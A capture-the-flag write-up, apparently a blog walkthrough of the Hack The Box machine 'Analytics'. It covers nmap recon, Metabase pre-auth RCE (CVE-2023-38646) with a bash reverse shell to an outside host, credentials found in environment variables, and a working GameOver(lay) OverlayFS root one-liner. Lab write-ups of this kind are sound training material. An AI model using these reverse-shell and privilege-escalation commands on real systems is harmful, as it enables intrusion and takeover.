

Today we will resolve Analytics.

Analytics is a Linux machine with a level of dicultay easy.

In this machine, I  will show you how to take adavantage of couple of known CVEs, one of them affecting some software running on the victim and another one affecting the running OS, but also we will see some technique to container escape.


## INTRO

* Name: Analytics

* S.O: Linux

* IP address: 10.10.11.233

* Difficulty: easy

* Tag: #Web #knownCVE #GameOver(lay) #containers


## RECON

We will start with a TCP SYN-ACK (sS) scan on all the ports (-p-), sending requests  in mode Insane(T5) as we want to go very fast and the network is controlled, we want to avoid name resolution (-n) and host discovery (Pn) and we will save the output in nmap format (oN), but providing all the verbose information via the console (vvv).


```bash 
nmap -p- -sS --min-rate 5000 -T5 -n -Pn -vvv 10.10.11.233 -oN recon_TCP_10.10.11.233
Starting Nmap 7.92 ( https://nmap.org ) at 2023-12-30 20:44 CET
Initiating SYN Stealth Scan at 20:44
Scanning 10.10.11.233 [65535 ports]
Discovered open port 22/tcp on 10.10.11.233
Discovered open port 80/tcp on 10.10.11.233
Warning: 10.10.11.233 giving up on port because retransmission cap hit (2).
Completed SYN Stealth Scan at 20:44, 16.56s elapsed (65535 total ports)
Nmap scan report for 10.10.11.233
Host is up, received user-set (0.12s latency).
Scanned at 2023-12-30 20:44:32 CET for 17s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 16.63 seconds
           Raw packets sent: 81042 (3.566MB) | Rcvd: 78991 (3.160MB)
```

```bash 
nmap -p- -sU --min-rate 5000 -Pn -n 10.10.11.233 -oN recon_UDP_10.10.11.233         
Starting Nmap 7.92 ( https://nmap.org ) at 2023-12-30 20:46 CET
Warning: 10.10.11.233 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.11.233
Host is up (0.13s latency).
All 65535 scanned ports on 10.10.11.233 are in ignored states.
Not shown: 65384 open|filtered udp ports (no-response), 151 closed udp ports (port-unreach)

Nmap done: 1 IP address (1 host up) scanned in 145.55 seconds
```

We find 2 open ports 22 and 80

We also run a UDP scan on all the ports, and no open ports detected.

So let's focus our enumeration on http port.


## ENUMERATION


So, in order to get more information about those open oports, let’s  run some basic enumeration scripts (sCV)

```bash 
nmap -sCV -p22,80 -n -Pn -v 10.10.11.233 -oN basic_enumeration.nmap
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://analytical.htb/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Under 80 port there is a nginx running, we also observe a redirection to analytica.htb, so first action is to add this host to our /etc/hosts

**Let’s start enumerating the http service**

**We will start with Whatweb command**, and then we will visit the web page  to get more info related to  this website, such as frameworks, technologies, e-mails, users,....


```bash                                                                 
whatweb http://analytica.htb
http://analytical.htb [200 OK] Bootstrap, Country[RESERVED][ZZ], Email[demo@analytical.com,due@analytical.com], Frame, HTML5, HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], IP[10.10.11.233], JQuery[3.0.0], Script, Title[Analytical], X-UA-Compatible[IE=edge], nginx[1.18.0]
```

We get 2 e-mails, so let's write them down, who knows if we will need them in the future,  and apart from that, nothing else to highliht.

Also we can have a look into the source page and look for some patterns, like password, key or http or 10.10.

```bash 
# curl http://analytical.htb > curl_output
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 17169  100 17169    0     0  45258      0 --:--:-- --:--:-- --:--:-- 45300
```                                                                         

```bash 
cat curl_output | grep -i "http://"
                <a class="nav-item nav-link" href="http://data.analytical.htb">Login</a>

```

**We have found another hostname: data.analytica.htb**, we will add it to the /etc/hosts

We also find in the code source some users:

* Alex Kirigo

* Daniel Walker

* Jonnhy Smith

We take notes, it might be useful for next stages.

**Now it's time have a look into the web-site**


The server is running the **Metabase** application, 

**What is Metabase**

Metabase is an open-source business intelligence platform. You can use Metabase to ask questions about your data, or embed Metabase in your app to let your customers explore their data on their own.


Further information: [https://www.metabase.com/docs/latest/](https://www.metabase.com/docs/latest/){:target="_blank"}

**We try some default credentials, without success.**

**We have a look for known vulnerabilities** on Metabase software and we find an interesting one:

 [https://nvd.nist.gov/vuln/detail/CVE-2023-38646](https://nvd.nist.gov/vuln/detail/CVE-2023-38646){:target="_blank"}

**CVE-2023-38646**

This vulnerability, exists in the /api/setup/validate API endpoint and would allow attackers to execute malicious commands on the server with elevated privileges, gaining full control over the application environment.

If we look for some exploits on internet we can find some of them.

**We will use this one**

[https://github.com/m3m0o/metabase-pre-auth-rce-poc](https://github.com/m3m0o/metabase-pre-auth-rce-poc){:target="_blank"}

The exploit just needs as paramter the setup token, which we can get it from this accessible endpoint
**http://data.analytical.htb/api/session/properties** and the command we want to execute.


## EXPLOITATION

Using the exploit, let's see if we are able to get a reverse shell.


We run the exploit passing the setup token and the bash command to execute the reverse shell

```bash 
# python3 main.py -u http://data.analytical.htb -t 249fa03d-fd94-4d5b-b94f-b4ebf3df681f -c "bash -i >& /dev/tcp/10.10.14.192/443 0>&1"
[!] BE SURE TO BE LISTENING ON THE PORT YOU DEFINED IF YOU ARE ISSUING AN COMMAND TO GET REVERSE SHELL [!]

[+] Initialized script
[+] Encoding command
[+] Making request
[+] Payload sent
```

Before, our listener on port 443 to receive the reverse shell is already running

```bash 
# nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.192] from (UNKNOWN) [10.10.11.233] 37444
bash: cannot set terminal process group (1): Not a tty
bash: no job control in this shell
be8428fb98ab:/$ 
```

And it worked, We get a shell, 

```bash 
4e9d4f66487b:/$ ifconfig
ifconfig
eth0      Link encap:Ethernet  HWaddr 02:42:AC:11:00:02  
          inet addr:172.17.0.2  Bcast:172.17.255.255  Mask:255.255.0.0
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:5185 errors:0 dropped:0 overruns:0 frame:0
          TX packets:7403 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0 
          RX bytes:1390223 (1.3 MiB)  TX bytes:9023893 (8.6 MiB)

lo        Link encap:Local Loopback  
          inet addr:127.0.0.1  Mask:255.0.0.0
          UP LOOPBACK RUNNING  MTU:65536  Metric:1
          RX packets:0 errors:0 dropped:0 overruns:0 frame:0
          TX packets:0 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:0 (0.0 B)  TX bytes:0 (0.0 B)

```

but it seems we are inside a container, with  IP address: 172.17.0.2.

So we will need to escape from it in order to get access to the user's flag.


When I am inside a container I like to start my enumeration running "env" command to check if there is any environtment variable exposed 

```bash 
4e9d4f66487b:/metabase.db$ env
env
SHELL=/bin/sh
MB_DB_PASS=
HOSTNAME=4e9d4f66487b
LANGUAGE=en_US:en
MB_JETTY_HOST=0.0.0.0
JAVA_HOME=/opt/java/openjdk
MB_DB_FILE=//metabase.db/metabase.db
PWD=/metabase.db
LOGNAME=metabase
MB_EMAIL_SMTP_USERNAME=
HOME=/home/metabase
LANG=en_US.UTF-8
META_USER=metalytics
META_PASS=An4lytics_ds20223#
MB_EMAIL_SMTP_PASSWORD=
USER=metabase
SHLVL=4
MB_DB_USER=
FC_LANG=en-US
LD_LIBRARY_PATH=/opt/java/openjdk/lib/server:/opt/java/openjdk/lib:/opt/java/openjdk/../lib
LC_CTYPE=en_US.UTF-8
MB_LDAP_BIND_DN=
LC_ALL=en_US.UTF-8
MB_LDAP_PASSWORD=
PATH=/opt/java/openjdk/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
MB_DB_CONNECTION_URI=
JAVA_VERSION=jdk-11.0.19+7
_=/usr/bin/env
OLDPWD=/tmp
```


And yes, we get some credentials

```bash
META_USER=metalytics
META_PASS=An4lytics_ds20223#
```

**so next step would be to try to connect via ssh using those credentials**

```bash 
# ssh -l metalytics 10.10.11.233
metalytics@analytics:~$ whoami
metalytics
metalytics@analytics:~$ ifconfig
docker0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.17.0.1  netmask 255.255.0.0  broadcast 172.17.255.255
        inet6 fe80::42:8aff:fef1:8bba  prefixlen 64  scopeid 0x20<link>
        ether 02:42:8a:f1:8b:ba  txqueuelen 0  (Ethernet)
        RX packets 12674  bytes 13137616 (13.1 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 9587  bytes 2820417 (2.8 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.10.11.233  netmask 255.255.254.0  broadcast 10.10.11.255
        inet6 dead:beef::250:56ff:feb9:8214  prefixlen 64  scopeid 0x0<global>
        inet6 fe80::250:56ff:feb9:8214  prefixlen 64  scopeid 0x20<link>
        ether 00:50:56:b9:82:14  txqueuelen 1000  (Ethernet)
        RX packets 440816  bytes 59748451 (59.7 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 402256  bytes 274645659 (274.6 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

```


## PRIV ESCALATION

I like to start with some basic enumeration commands, such as **sudo -l**, **uname -a**,....


```bash
metalytics@analytics:/var/tmp$ uname -a
Linux analytics 6.2.0-25-generic #25~22.04.2-Ubuntu SMP PREEMPT_DYNAMIC Wed Jun 28 09:55:23 UTC 2 x86_64 x86_64 x86_64 GNU/Linux
metalytics@analytics:/var/tmp$ 
```

**the host is running Ubuntu:**

Make sense always to have a look for vulnerabilities that could affect the OS, as it is a easy way to escalate privileges.



**And the OS  release 22.04 version 6.2.0 is affected by GameOver(lay) privilege escalation vulnerability**


**CVE-2023-2640 and CVE-2023-32629**

These CVEs affect the OverlayFS module in Ubuntu, which is widely used in container scenarios. They allow the creation of specialized executables, which, upon execution, grant the ability to escalate privileges to root on the affected machine.

More information:
[https://www.wiz.io/blog/ubuntu-overlayfs-vulnerability](https://www.wiz.io/blog/ubuntu-overlayfs-vulnerability){:target="_blank"}


In order to exploit it,  I will run this script in the victim:


[https://github.com/luanoliveira350/GameOverlayFS](https://github.com/luanoliveira350/GameOverlayFS){:target="_blank"}

if it works, the id command will be executed as root

```bash 
metalytics@analytics:/tmp/.alter$ cat c.sh 
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;
setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("id")'
```

```bash 
metalytics@analytics:/tmp/.alter$ ./c.sh 
uid=0(root) gid=1000(metalytics) groups=1000(metalytics)
```


**It worked, so now just we need to update the script to get a root shell and get the flag**

```bash 
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;
setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("bash -p")'
```

```bash 
metalytics@analytics:/tmp/.alter$ ./c.sh 
root@analytics:/tmp/.alter# whoami
root
root@analytics:/tmp/.alter# cat /root/root.txt 
19bf1d2e39bdb1db8e085fea83d70e42
```